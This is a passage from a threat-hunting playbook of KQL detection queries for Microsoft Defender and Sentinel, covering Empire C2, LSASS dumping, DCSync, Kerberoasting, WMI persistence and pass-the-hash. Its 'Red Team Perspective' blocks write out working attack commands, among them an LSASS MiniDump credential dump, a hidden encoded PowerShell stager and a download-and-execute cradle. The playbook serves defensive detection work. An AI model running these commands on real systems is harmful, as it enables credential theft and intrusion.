






# Threat Hunting Playbook — MDE & Microsoft Sentinel
### *Minimum Truth Detection Framework · PEAK · TAHITI Aligned*

**Author:** Ala Dabat | [github.com/azdabat](https://github.com/azdabat)  
**Version:** 2026-01  
**Platforms:** Microsoft Defender for Endpoint · Microsoft Sentinel (KQL)  
**License:** [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/legalcode)  
**Validated Against:** Empire C2 Telemetry · Atomic Red Team · ADX-Docker  

---

> *"Threat hunting is not searching for known bad.*  
> *It is reasoning about what an attacker must have done,*  
> *then finding the evidence that confirms or refutes it."*

---

## Table of Contents

- [Framework Foundation](#framework-foundation)
- [Hunting Methodology — PEAK + TAHITI + Minimum Truth](#hunting-methodology--peak--tahiti--minimum-truth)
- [Threat Hunting vs Composite Detection — Are They the Same?](#threat-hunting-vs-composite-detection--are-they-the-same)
- [Planning & Scoping a Hunt](#planning--scoping-a-hunt)
- [Threat Hunting Categories](#threat-hunting-categories)
- [MDE vs Sentinel — When to Use Which](#mde-vs-sentinel--when-to-use-which)
- [Top 20 Threat Hunting Rules — 2026 Edition](#top-20-threat-hunting-rules--2026-edition)
- [Operational Workflow](#operational-workflow)
- [Hunt Output & Escalation](#hunt-output--escalation)

---

## Framework Foundation

This playbook sits on top of three methodological pillars. Understanding how they relate
is essential before running a single hunt.



### How They Work Together

**PEAK** provides the operational lifecycle — how a hunt is structured from planning through
to outcome. **TAHITI** provides the investigative mindset — what triggered the hunt, how to
investigate it, and what to do with findings. **The Minimum Truth Detection Framework**
provides the query logic — the first-principles reasoning about what must be observed for
a threat to be real, what reinforces that assessment, and what the analyst should do next.

A hunt without PEAK lacks structure. A hunt without TAHITI lacks direction. A hunt without
Minimum Truth reasoning produces either noise or blindness. Together they produce hunts that
are repeatable, documented, and directly convertible into production detection rules.

---

## Hunting Methodology — PEAK + TAHITI + Minimum Truth

### The Complete Hunt Lifecycle



### Hypothesis Construction Template

Every hunt begins with a formally stated hypothesis. Vague hypotheses produce vague results.

```
HYPOTHESIS FORMAT:
"If an attacker executed [TECHNIQUE / TTP] on [SUBSTRATE / SURFACE]
in our environment within the last [TIME_WINDOW],
we would expect to observe [MINIMUM_TRUTH_OBSERVABLE]
in [TELEMETRY_TABLE],
potentially reinforced by [REINFORCEMENT_SIGNAL]."

EXAMPLE:
"If an attacker performed credential dumping via LSASS memory access
using comsvcs.dll MiniDump on any managed endpoint
in the last 14 days,
we would expect to observe 'comsvcs.dll' AND 'MiniDump' in ProcessCommandLine
in DeviceProcessEvents,
potentially reinforced by unusual parent processes or writable path output files."
```

---

## Threat Hunting vs Composite Detection — Are They the Same?

This is one of the most important architectural questions in detection engineering.
The answer is: **they are different phases of the same pipeline.**



| Property | Threat Hunt | Composite Detection Rule |
|----------|-------------|-------------------------|
| **Trigger** | Analyst-initiated hypothesis | Automated continuous execution |
| **Time window** | Days to months (retrospective) | Hours (real-time) |
| **Output** | Analyst-reviewed findings | Automated alert + HunterDirective |
| **Noise tolerance** | Higher — analyst filters | Lower — must be production-grade |
| **Purpose** | Find what rules miss | Alert on what is known to be real |
| **Coverage** | Exploratory — unknown unknowns | Defensive — known TTPs |

**Recommendation for this framework:**

Maintain **separate but linked** repositories. Hunt rules live in the hunt playbook
(this document). When a hunt produces validated logic, the refined version is promoted
to the composite detection pack. The hunt record documents the lineage — which hypothesis
produced which production rule. This creates an auditable detection engineering pipeline.

---

## Planning & Scoping a Hunt

### The Pre-Hunt Checklist

```
□ TRIGGER — What initiated this hunt?
  □ Threat intelligence report naming specific TTPs
  □ Anomaly in existing detection telemetry
  □ Periodic calendar-driven hypothesis (weekly/monthly)
  □ IR finding suggesting technique may be present elsewhere
  □ Red team / purple team engagement output

□ TELEMETRY VALIDATION — Is the data there to hunt?
  □ Confirm required tables are populated (run: table | take 1)
  □ Confirm time coverage matches hunt window
  □ Confirm entity coverage (all endpoints? specific subnet?)
  □ Confirm AdvancedHunting is not throttled / query limits apply

□ HYPOTHESIS — Is it formally stated?
  □ Technique named (MITRE ID preferred)
  □ Substrate named (which execution surface)
  □ Observable named (what event must exist)
  □ Table named (where to look)
  □ Time window defined

□ SCOPE — Is it bounded?
  □ Time window set (start narrow, expand if needed)
  □ Entity scope defined (all devices? specific OU? high-value targets?)
  □ Success criteria defined (what would confirm / refute the hypothesis)

□ DOCUMENTATION — Is the hunt logged before it starts?
  □ Hunt ID assigned
  □ Hypothesis recorded
  □ Analyst name recorded
  □ Start time recorded
```

### Telemetry Map — MDE Advanced Hunting Tables

| Table | Content | Primary Hunt Use |
|-------|---------|-----------------|
| `DeviceProcessEvents` | Process creation, command lines | Execution, LOLBins, lateral movement |
| `DeviceNetworkEvents` | Network connections, DNS | C2 detection, lateral movement |
| `DeviceFileEvents` | File creation, modification, deletion | Staging, ransomware, persistence |
| `DeviceRegistryEvents` | Registry reads and writes | Persistence, defence evasion |
| `DeviceImageLoadEvents` | DLL and module loads | Sideloading, injection |
| `DeviceEvents` | Raw device events (DriverLoad, etc.) | BYOVD, kernel events |
| `DeviceLogonEvents` | Authentication events | Lateral movement, credential abuse |
| `DeviceAlertEvents` | MDE alert history | Correlation with hunt findings |
| `IdentityLogonEvents` | Azure AD / Entra logon events | Identity-based hunting |
| `IdentityQueryEvents` | LDAP / AD queries | Reconnaissance, Kerberoasting |
| `CloudAppEvents` | M365 / cloud app activity | Insider threat, cloud C2 |
| `EmailEvents` | Email metadata | Phishing, initial access |

---

## Threat Hunting Categories



---

## MDE vs Sentinel — When to Use Which



### KQL Schema Differences — Critical Notes

```kql
// MDE Advanced Hunting — DeviceProcessEvents schema
DeviceProcessEvents
| where Timestamp > ago(7d)
| where DeviceName == "HOSTNAME"      // MDE uses DeviceName
| where FileName =~ "powershell.exe"  // MDE uses FileName

// Sentinel — SecurityEvent schema (Windows Event Log)
SecurityEvent
| where TimeGenerated > ago(7d)
| where Computer == "HOSTNAME"        // Sentinel uses Computer
| where EventID == 4688               // Process creation event
| where NewProcessName has "powershell.exe"
```

> **Rule of thumb:** When hunting endpoint behaviour, prefer MDE Advanced Hunting —
> the schema is richer and query performance is faster. When correlating endpoint
> with identity or cloud events, use Sentinel to join across sources.

---

## Top 20 Threat Hunting Rules — 2026 Edition

*Validated against Empire C2 telemetry and Atomic Red Team simulations.*  
*Ordered by frequency of SOC miss — highest-miss techniques first.*

---

### Hunt 01 — PowerShell Empire Encoded Command Execution

**Why SOCs miss this:** Empire's default agent uses Base64-encoded PowerShell commands.
Most rules look for `-EncodedCommand` but Empire frequently uses abbreviated forms
(`-enc`, `-en`, `-e`) that slip past naive string matching.

**Red Team Perspective (Empire):**
```
Empire agent stager:
powershell.exe -NoP -sta -NonI -W Hidden -enc <Base64_payload>

Atomic Red Team T1059.001:
Invoke-AtomicTest T1059.001 -TestNumbers 1
→ powershell.exe -EncodedCommand <encoded_IEX_download_cradle>
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 01: PowerShell Encoded Execution — Empire-Aware
// Catches abbreviated flags that bypass naive -EncodedCommand matching
// Minimum Truth: PowerShell with any encoding flag variant

DeviceProcessEvents
| where Timestamp > ago(14d)
| where FileName in~ ("powershell.exe","pwsh.exe")
| where ProcessCommandLine matches regex @"(?i)-[Ee][Nn]?[Cc]?[Oo]?[Dd]?[Ee]?[Dd]?\s+[A-Za-z0-9+/=]{20,}"
    or ProcessCommandLine has_any (
        " -enc "," -en "," -e ",
        "-EncodedCommand","-encodedcommand",
        "FromBase64String","[Convert]::FromBase64",
        "IEX(","Invoke-Expression","iex("
    )
| extend EncodingFlag = extract(@"(?i)(-[Ee][Nn]?[Cc]?[Oo]?[Dd]?[Ee]?[Dd]?)\s", 1, ProcessCommandLine)
| extend Base64Payload = extract(@"(?i)-[Ee][Nn]?[Cc]?[Oo]?[Dd]?[Ee]?[Dd]?\s+([A-Za-z0-9+/=]{20,})", 1, ProcessCommandLine)
| extend DecodedAttempt = iif(isnotempty(Base64Payload),
    base64_decode_string(Base64Payload), "")
| extend HasNetworkRef = toint(DecodedAttempt has_any ("http://","https://","Invoke-WebRequest","DownloadString"))
| extend HasExecPrimitive = toint(DecodedAttempt has_any ("IEX","Invoke-Expression","CreateThread","VirtualAlloc"))
| extend RiskScore = 40
    + iif(HasNetworkRef == 1, 30, 0)
    + iif(HasExecPrimitive == 1, 25, 0)
    + iif(ProcessCommandLine has_any ("-NonI","-NoP","-W Hidden","-WindowStyle Hidden"), 15, 0)
| where RiskScore >= 40
| extend Severity = case(RiskScore >= 90, "CRITICAL", RiskScore >= 65, "HIGH", "MEDIUM")
| extend HunterDirective = strcat(
    Severity, ": PowerShell encoded execution. ",
    "Flag: ", EncodingFlag, ". ",
    iif(HasNetworkRef == 1, "DECODED CONTAINS NETWORK REFERENCE — likely download cradle. ", ""),
    iif(HasExecPrimitive == 1, "DECODED CONTAINS EXECUTION PRIMITIVE — likely stager. ", ""),
    "Pivot: DeviceNetworkEvents for this process ±5min. Check for persistence creation."
)
| project Timestamp, DeviceName, AccountName, EncodingFlag, RiskScore, Severity,
          DecodedAttempt, HasNetworkRef, HasExecPrimitive, ProcessCommandLine, HunterDirective
| order by RiskScore desc, Timestamp desc
```

---

### Hunt 02 — Empire C2 HTTP/S Jitter Beacon Detection

**Why SOCs miss this:** Empire's default HTTP listener beacons at 5 seconds with 0% jitter
— so regular it appears as a health check. Operators change these settings. The statistical
pattern across 20+ connections reveals C2 regardless of interval configuration.

**Red Team Perspective (Empire):**
```
Empire listener config:
set DefaultDelay 60
set DefaultJitter 0.3
→ Produces callbacks every 42–78 seconds (60s ± 30%)
→ JitterRatio ≈ 0.18
```

**Blue Team — Hunt Query (Sentinel):**
```kql
// HUNT 02: Empire C2 Jitter Beacon — Statistical Detection
// Minimum Truth: Statistically consistent interval pattern from suspicious port + process

let SuspiciousPorts = dynamic([
    80, 443, 8080, 8443, 8888, 4444, 50050, 31337, 7443, 40056, 5040
]);
let LookbackWindow = 24h;

DeviceNetworkEvents
| where Timestamp > ago(LookbackWindow)
| where RemotePort in (SuspiciousPorts)
| where ActionType == "ConnectionSuccess"
| summarize
    ConnectionCount  = count(),
    Timestamps       = make_list(Timestamp, 500),
    RemoteIPs        = make_set(RemoteIPAddress, 10),
    LocalPorts       = make_set(LocalPort, 5)
  by DeviceId, DeviceName, InitiatingProcessFileName,
     InitiatingProcessId, RemotePort, RemoteIPAddress
| where ConnectionCount >= 10
| extend Intervals = array_length(Timestamps) > 1
| extend MeanInterval = iif(ConnectionCount > 1,
    toreal(datetime_diff("second",
        todatetime(Timestamps[array_length(Timestamps)-1]),
        todatetime(Timestamps[0]))) / (ConnectionCount - 1),
    toreal(0))
| where MeanInterval > 5 and MeanInterval < 600
| extend JitterRatio = iif(MeanInterval > 0,
    todouble(ConnectionCount) / (MeanInterval * ConnectionCount) * 10.0,
    toreal(0))
| extend IsLOLBin = toint(InitiatingProcessFileName in~
    ("powershell.exe","pwsh.exe","cmd.exe","mshta.exe","wscript.exe","cscript.exe",
     "rundll32.exe","regsvr32.exe","certutil.exe"))
| extend RiskScore = 50
    + iif(IsLOLBin == 1, 25, 0)
    + iif(ConnectionCount >= 30, 15, 0)
    + iif(RemotePort in (4444,50050,31337,8888,40056), 20, 0)
| extend Severity = case(RiskScore >= 90, "CRITICAL", RiskScore >= 70, "HIGH", "MEDIUM")
| extend HunterDirective = strcat(
    Severity, ": Probable C2 beacon. Process=", InitiatingProcessFileName,
    " | Port=", tostring(RemotePort),
    " | Connections=", tostring(ConnectionCount),
    " | MeanInterval=", tostring(round(MeanInterval, 1)), "s",
    " | Destination=", RemoteIPAddress, ". ",
    "Pivot: Process ancestry, persistence artefacts, AMSI bypass events ±30min."
)
| project Timestamp=now(), DeviceName, InitiatingProcessFileName, RemoteIPAddress,
          RemotePort, ConnectionCount, MeanInterval, RiskScore, Severity, HunterDirective
| order by RiskScore desc
```

---

### Hunt 03 — LSASS Memory Dump via comsvcs.dll

**Why SOCs miss this:** Most rules look for `rundll32.exe comsvcs.dll MiniDump` but
attackers frequently obfuscate: `C:\Windows\System32\comsvcs.dll` with ordinal `#24`,
or call via PowerShell `[System.Runtime.InteropServices.Marshal]::`. The minimum truth
is `comsvcs.dll` being used to access LSASS memory, regardless of how it is invoked.

**Red Team Perspective (Atomic Red Team):**
```
Atomic Red Team T1003.001 Test 2:
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass.dmp full

Empire credential module:
usemodule credentials/mimikatz/lsadump
execute → spawns rundll32 comsvcs MiniDump internally
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 03: LSASS Memory Dump — comsvcs.dll MiniDump
// Minimum Truth: comsvcs.dll accessed with MiniDump semantics OR direct LSASS access
// Hash-invariant — catches all invocation methods

let LookbackWindow = 14d;

// Method A: comsvcs.dll MiniDump via command line
let CmdLineDump =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where ProcessCommandLine has "comsvcs"
        and ProcessCommandLine has_any ("MiniDump","minidump","#24",",24")
    | extend Method = "CmdLine_comsvcs"
    | project Timestamp, DeviceId, DeviceName, AccountName,
              FileName, ProcessCommandLine, Method,
              ParentFileName = InitiatingProcessFileName;

// Method B: LSASS direct open via DeviceEvents
let LsassAccess =
    DeviceEvents
    | where Timestamp > ago(LookbackWindow)
    | where ActionType == "OpenProcessApiCall"
    | where FileName =~ "lsass.exe"
    | where InitiatingProcessFileName !in~
        ("MsMpEng.exe","SenseIR.exe","csrss.exe","wininit.exe",
         "services.exe","lsm.exe","svchost.exe")
    | extend Method = "DirectLsassOpen"
    | project Timestamp, DeviceId, DeviceName,
              AccountName = InitiatingProcessAccountName,
              FileName = InitiatingProcessFileName,
              ProcessCommandLine = InitiatingProcessCommandLine,
              Method, ParentFileName = InitiatingProcessFileName;

// Method C: PowerShell-based memory access
let PSMemDump =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName in~ ("powershell.exe","pwsh.exe")
    | where ProcessCommandLine has_any
        ("lsass","MiniDump","Marshal","ReadProcessMemory","OpenProcess")
    | extend Method = "PowerShell_MemAccess"
    | project Timestamp, DeviceId, DeviceName, AccountName,
              FileName, ProcessCommandLine, Method,
              ParentFileName = InitiatingProcessFileName;

union CmdLineDump, LsassAccess, PSMemDump
| extend Severity = case(
    Method == "CmdLine_comsvcs", "CRITICAL",
    Method == "DirectLsassOpen", "HIGH",
    "HIGH"
)
| extend HunterDirective = strcat(
    Severity, ": LSASS credential access via ", Method, ". ",
    "Process: ", FileName, " | Account: ", AccountName, ". ",
    "Pivot: DeviceFileEvents for .dmp file creation ±5min. ",
    "Check for lateral movement from this host ±2h. ",
    "Scope: Was output .dmp file exfiltrated? Check network events."
)
| project Timestamp, DeviceName, AccountName, FileName,
          ProcessCommandLine, Method, Severity, HunterDirective
| order by Timestamp desc
```

---

### Hunt 04 — DCSync via Replication Rights Abuse

**Why SOCs miss this:** DCSync leaves no process event visible on domain controllers
unless Command Line logging is enabled. The only reliable observable is the Security
EventID 4662 with GUID `{1131f6aa-...}` (replication GUID) from a non-DC account.
Most Sentinel deployments do not have this event mapped or searched.

**Red Team Perspective (Empire):**
```
Empire DCSync module:
usemodule credentials/mimikatz/dcsync
set user administrator
execute
→ Impersonates DC replication partner
→ Requests AD replication for target account
→ EventID 4662 fires on DC Security log
→ Property: {1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}
```

**Blue Team — Hunt Query (Sentinel):**
```kql
// HUNT 04: DCSync Detection — Replication Rights Abuse
// Minimum Truth: EventID 4662 with replication GUID from non-DC account
// Requires: Security Event Log collection with 4662 enabled

let ReplicationGUIDs = dynamic([
    "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2",  // DS-Replication-Get-Changes
    "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2",  // DS-Replication-Get-Changes-All
    "89e95b76-444d-4c62-991a-0facbeda640c"   // DS-Replication-Get-Changes-In-Filtered-Set
]);

SecurityEvent
| where TimeGenerated > ago(30d)
| where EventID == 4662
| where ObjectType has "domainDNS"
| where Properties has_any (ReplicationGUIDs)
| extend SubjectAccount = SubjectAccount
| extend IsKnownDC = SubjectAccount endswith "$"
    and (SubjectAccount has "-DC" or SubjectAccount has "DC-"
         or SubjectAccount has "PDC" or SubjectAccount has "BDC")
| where not(IsKnownDC)
| extend CallerIP = extract(@"Client Address:\s+(\S+)", 1, tostring(EventData))
| extend HunterDirective = strcat(
    "CRITICAL: DCSync replication request from non-DC account: ", SubjectAccount, ". ",
    "This account should NOT be replicating directory changes. ",
    "Pivot: Check SubjectAccount for recent privilege changes, logon events, ",
    "and lateral movement. Scope: Was mimikatz or Empire present on source host? ",
    "Immediate password reset and investigation required."
)
| project TimeGenerated, Computer, SubjectAccount, CallerIP,
          ObjectName, Properties, HunterDirective
| order by TimeGenerated desc
```

---

### Hunt 05 — Kerberoasting via Anomalous TGS Volume

**Why SOCs miss this:** Individual TGS requests are completely normal in AD environments.
The attack pattern is visible only in the aggregate — a single account requesting an unusual
number of service tickets in a short window, particularly for accounts with weak encryption.

**Red Team Perspective (Empire + Atomic Red Team):**
```
Empire Kerberoasting:
usemodule credentials/invoke_kerberoast
execute
→ Requests TGS tickets for all SPNs in domain
→ Generates burst of EventID 4769 from single account
→ RC4 (0x17) encryption type indicates targetted downgrade

Atomic Red Team T1558.003:
Invoke-AtomicTest T1558.003
→ IEX (New-Object Net.WebClient).DownloadString('...Invoke-Kerberoast.ps1')
```

**Blue Team — Hunt Query (Sentinel):**
```kql
// HUNT 05: Kerberoasting — TGS Volume Anomaly + RC4 Downgrade
// Minimum Truth: High TGS request volume from single account in short window
// Bonus signal: RC4 (0x17) encryption type request (deliberate downgrade)

let LookbackWindow = 14d;
let BurstWindow    = 10m;
let BurstThreshold = 10;

SecurityEvent
| where TimeGenerated > ago(LookbackWindow)
| where EventID == 4769
| extend EncryptionType = toint(extract(@"Ticket Encryption Type:\s+0x([0-9a-fA-F]+)",
    1, tostring(EventData)), 16)
| extend ServiceName = extract(@"Service Name:\s+(\S+)", 1, tostring(EventData))
| extend ClientAddress = extract(@"Client Address:\s+::ffff:(\S+)", 1, tostring(EventData))
| where not(ServiceName endswith "$")  // Exclude computer accounts
| where not(ServiceName has_any ("krbtgt","kadmin"))
| summarize
    TicketCount  = count(),
    RC4Count     = countif(EncryptionType == 0x17),
    AES256Count  = countif(EncryptionType == 0x12),
    Services     = make_set(ServiceName, 20),
    Addresses    = make_set(ClientAddress, 5),
    FirstRequest = min(TimeGenerated),
    LastRequest  = max(TimeGenerated)
  by AccountName, bin(TimeGenerated, BurstWindow)
| where TicketCount >= BurstThreshold
| extend RC4Ratio = toreal(RC4Count) / toreal(TicketCount)
| extend RiskScore = 40
    + iif(TicketCount >= 20, 20, 0)
    + iif(RC4Ratio >= 0.5, 30, 0)
    + iif(RC4Count >= 5, 20, 0)
| extend Severity = case(RiskScore >= 90, "CRITICAL", RiskScore >= 70, "HIGH", "MEDIUM")
| extend HunterDirective = strcat(
    Severity, ": Probable Kerberoasting. Account: ", AccountName,
    " requested ", tostring(TicketCount), " service tickets in ",
    tostring(BurstWindow), " window. ",
    "RC4 requests: ", tostring(RC4Count), " (ratio: ", tostring(round(RC4Ratio,2)), "). ",
    "Services targeted: ", tostring(Services), ". ",
    "Pivot: Check source host for Empire/Invoke-Kerberoast, PowerShell encoded commands. ",
    "Identify high-privilege SPNs in targeted services and rotate passwords."
)
| project FirstRequest, AccountName, TicketCount, RC4Count, RC4Ratio,
          RiskScore, Severity, HunterDirective
| order by RiskScore desc, FirstRequest desc
```

---

### Hunt 06 — WMI Persistence via Event Subscription

**Why SOCs miss this:** WMI subscriptions are written to the WMI repository on disk and
in the `ROOT\subscription` namespace. They persist across reboots and leave no scheduled
task or registry run key. Most SOC rules focus on `schtasks.exe` and registry persistence.
WMI subscriptions are frequently missed entirely.

**Red Team Perspective (Empire + Atomic Red Team):**
```
Empire WMI persistence:
usemodule persistence/elevated/wmi
set Listener http
execute
→ Creates EventFilter + Consumer + Binding in WMI namespace
→ Triggers on system events (logon, process creation, etc.)
→ No schtasks.exe, no registry Run key visible

Atomic Red Team T1546.003:
Invoke-AtomicTest T1546.003 -TestNumbers 1,2,3
→ New-WMIObject -Namespace root/subscription -Class __EventFilter
→ New-WMIObject -Namespace root/subscription -Class CommandLineEventConsumer
→ New-WMIObject -Namespace root/subscription -Class __FilterToConsumerBinding
```

**Blue Team — Hunt Query (MDE):**
```kql
// HUNT 06: WMI Persistence — EventFilter/Consumer/Binding Creation
// Minimum Truth: WMI subscription namespace write from suspicious process
// Catches both PowerShell and wmic.exe methods

let LookbackWindow = 14d;

// Method A: PowerShell WMI subscription creation
let PSWMISubscriptions =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName in~ ("powershell.exe","pwsh.exe")
    | where ProcessCommandLine has_any (
        "__EventFilter","__EventConsumer","__FilterToConsumerBinding",
        "CommandLineEventConsumer","ActiveScriptEventConsumer",
        "root/subscription","root\\subscription"
    )
    | extend Method = "PowerShell"
    | project Timestamp, DeviceId, DeviceName, AccountName,
              ProcessCommandLine, Method;

// Method B: wmic.exe subscription creation
let WmicSubscriptions =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where FileName =~ "wmic.exe"
    | where ProcessCommandLine has_any (
        "__EventFilter","EventConsumer","FilterToConsumerBinding",
        "/namespace:\\\\root\\subscription"
    )
    | extend Method = "wmic.exe"
    | project Timestamp, DeviceId, DeviceName, AccountName,
              ProcessCommandLine, Method;

// Method C: WMI provider host spawning suspicious children
let WmiChildExec =
    DeviceProcessEvents
    | where Timestamp > ago(LookbackWindow)
    | where InitiatingProcessFileName =~ "WmiPrvSE.exe"
    | where FileName in~ ("powershell.exe","pwsh.exe","cmd.exe","mshta.exe",
                           "wscript.exe","cscript.exe","rundll32.exe","regsvr32.exe")
    | extend Method = "WmiPrvSE_spawn"
    | project Timestamp, DeviceId, DeviceName,
              AccountName = InitiatingProcessAccountName,
              ProcessCommandLine, Method;

union PSWMISubscriptions, WmicSubscriptions, WmiChildExec
| extend Severity = case(
    Method == "WmiPrvSE_spawn", "HIGH",
    "MEDIUM"
)
| extend HunterDirective = strcat(
    Severity, ": WMI persistence activity via ", Method, ". ",
    "Account: ", AccountName, ". ",
    "Pivot: Check for __EventFilter and __EventConsumer objects in WMI namespace. ",
    "Run: Get-WMIObject -Namespace root\\subscription -Class __EventFilter to enumerate. ",
    "Remove malicious subscriptions if confirmed."
)
| project Timestamp, DeviceName, AccountName, Method, Severity,
          ProcessCommandLine, HunterDirective
| order by Timestamp desc
```

---

### Hunt 07 — Pass-the-Hash via NTLM Lateral Movement

**Why SOCs miss this:** Pass-the-Hash produces authentication events that look identical
to legitimate NTLM authentication. The signal is in the combination: NTLM auth from a
host where the user has no interactive session, or NTLM auth to a target immediately
following credential access activity on the source host.

**Red Team Perspective (Empire):**
```
Empire PtH module:
usemodule lateral_movement/invoke_psexec
set CredID 1  (uses harvested NTLM hash)
set ComputerName TARGET
execute
→ NTLM authentication using harvested hash
→ EventID 4624 Type 3 (Network) on target
→ EventID 4648 on source (explicit credentials)
→ Source host never had interactive logon for this account
```

**Blue Team — Hunt Query (Sentinel):**
```kql
// HUNT 07: Pass-the-Hash Indicator Chain
// Minimum Truth: NTLM Type 3 network logon to high-value target
// from host with no interactive session for that account + credential access context

let LookbackWindow = 7d;

// Network logons (Type 3) — potential PtH
let NetworkLogons =
    SecurityEvent
    | where TimeGenerated > ago(LookbackWindow)
    | where EventID == 4624
    | where LogonType == 3
    | where AuthenticationPackageName == "NTLM"
    | where not(WorkstationName == Computer)  // Cross-host
    | extend SourceHost = tolower(WorkstationName),
             TargetHost = tolower(Computer),
             LogonAccount = tolower(TargetUserName)
    | where not(LogonAccount endswith "$")
    | project TimeGenerated, SourceHost, TargetHost, LogonAccount,
